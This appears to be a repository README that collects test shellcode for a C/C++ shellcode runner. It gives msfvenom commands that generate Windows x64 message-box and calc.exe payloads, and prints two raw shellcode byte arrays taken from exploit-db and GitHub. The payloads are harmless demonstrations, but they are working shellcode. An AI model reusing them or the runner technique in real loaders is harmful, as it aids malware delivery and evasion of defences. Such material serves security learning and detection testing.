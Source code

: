 Most of the shellcodes here have been generated using metasploit.

For messagebox (Hello World !):

```bash
$ msfvenom -p windows/x64/messagebox text="Hello World \!" -f c
$ msfvenom -p windows/x64/messagebox text="Hello World \!" exitfunc=thread -f c
```

For `calc.exe`:

```bash
$ msfvenom -p windows/x64/exec  cmd="calc.exe" -f c
$ msfvenom -p windows/x64/exec  cmd="calc.exe" exitfunc=thread -f c
```

One more version of the messagebox is from a Github repository.
- https://gist.github.com/kkent030315/b508e56a5cb0e3577908484fa4978f12

It possible that sometimes the metasploit shellcode may not work with C/C++ shellcode runner, but the github version does.
Likely because of how the shellcode is generated.

This was has not been tested but may be an alternative:

- https://www.exploit-db.com/exploits/48229
Credits: Bobby Cooke (@boku7)

```c
char code[] = 
	"\x55\x89\xe5\x83\xec\x10\x31\xc9\xf7\xe1\x89\xc3\x64\x8b\x5b\x30\x8b\x5b"
	"\x08\x53\x58\x03\x43\x3c\xb2\x80\x66\x01\xd0\x8b\x10\x01\xda\x80\xc2\x0c"
	"\x66\xb9\x33\x32\x51\x68\x55\x53\x45\x52\x89\x65\xfc\x31\xc9\x52\x31\xc0"
	"\xb0\x14\xf6\xe1\x01\x04\x24\x58\x50\x8b\x75\xfc\x8b\x38\x01\xdf\x51\x31"
	"\xc9\xfc\xb1\x06\xf3\xa6\x59\x74\x04\x58\x41\xeb\xde\x58\x89\x45\xf8\x2c"
	"\x0c\x8b\x00\x01\xd8\x89\x45\xf4\xb9\x6f\x6f\x78\x41\xc1\xe9\x08\x51\x68"
	"\x61\x67\x65\x42\x68\x4d\x65\x73\x73\xeb\x08\xc6\x44\x24\x0a\x57\x8b\x45"
	"\xf4\x31\xc9\x89\xe6\x31\xd2\x8b\x38\x39\xd7\x74\xec\x01\xdf\x47\x47\x51"
	"\x31\xc9\xfc\xb1\x0b\xf3\xa6\x59\x74\x07\xb2\x04\x01\xd0\x41\xeb\xe0\x8b"
	"\x45\xf8\x04\x04\x8b\x38\x01\xdf\x31\xc0\xb0\x04\x66\xf7\xe1\x01\xf8\x8b"
	"\x00\x8a\x5c\x24\x0a\x31\xc9\x51\x80\xfb\x41\x74\x18\x68\x4b\x2d\x55\x2d"
	"\x68\x42\x2d\x4f\x2d\x89\xe2\x42\x88\x2a\x42\x41\x80\xf9\x04\x74\x07\xeb"
	"\xf4\x68\x42\x4f\x4b\x55\x31\xc9\x89\xe3\x51\x53\x53\x51\xff\xd0";
 ```
 
 For calc execution, this one may be an alternative (untested):
 
 - https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode/blob/main/win-x64-DynamicKernelWinExecCalc.asm
 Credits: Bobby Cooke (@boku7)
 
 ```c
 // Shellcode
  unsigned char payload[] =
    "\x48\x31\xff\x48\xf7\xe7\x65\x48\x8b\x58\x60\x48\x8b\x5b\x18\x48\x8b\x5b\x20\x48\x8b\x1b\x48\x8b\x1b\x48\x8b\x5b\x20\x49\x89\xd8\x8b"
    "\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01\xc2\x4d\x31\xd2\x44\x8b\x52\x1c\x4d\x01\xc2"
    "\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3\x4d\x31\xe4\x44\x8b\x62\x24\x4d\x01\xc4\xeb\x32\x5b\x59\x48\x31\xc0\x48\x89\xe2\x51\x48\x8b"
    "\x0c\x24\x48\x31\xff\x41\x8b\x3c\x83\x4c\x01\xc7\x48\x89\xd6\xf3\xa6\x74\x05\x48\xff\xc0\xeb\xe6\x59\x66\x41\x8b\x04\x44\x41\x8b\x04"
    "\x82\x4c\x01\xc0\x53\xc3\x48\x31\xc9\x80\xc1\x07\x48\xb8\x0f\xa8\x96\x91\xba\x87\x9a\x9c\x48\xf7\xd0\x48\xc1\xe8\x08\x50\x51\xe8\xb0"
    "\xff\xff\xff\x49\x89\xc6\x48\x31\xc9\x48\xf7\xe1\x50\x48\xb8\x9c\x9e\x93\x9c\xd1\x9a\x87\x9a\x48\xf7\xd0\x50\x48\x89\xe1\x48\xff\xc2"
    "\x48\x83\xec\x20\x41\xff\xd6";
```